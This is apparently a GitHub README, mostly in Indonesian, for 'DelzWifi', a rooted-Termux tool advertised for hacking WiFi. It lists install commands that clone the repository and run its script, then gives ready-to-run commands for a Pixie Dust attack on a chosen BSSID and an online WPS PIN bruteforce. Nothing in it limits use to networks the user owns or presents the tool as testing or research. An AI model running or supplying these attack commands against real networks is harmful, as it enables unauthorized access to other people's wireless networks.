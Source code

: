 ## DelzWifi
### Hack WIfi Mengunakan Termux! (Wajib Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade
&& pkg install -y root-repo
&& pkg install -y git tsu python wpa-supplicant pixiewps iw
&& git clone https://github.com/ghodelzcalm/DelzWifi
&& sudo python DelzWifi/birihack.py -i wlan0 -K
```

## Langsung Menjalankan Perintah Script

```bash

sudo python DelzWifi/birihack.py -i wlan0 -K
```


## Perbarui

```bash

(cd DelzWifi && git pull)
```



#### Note: 
**Pertama matikan Wifi Anda.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Jika Terjadi Error" - Nyalakan Wifi lalu Matikan Wifi.**

### Berhentikan script yang sedang berjalan 
**" (CTRL C).**
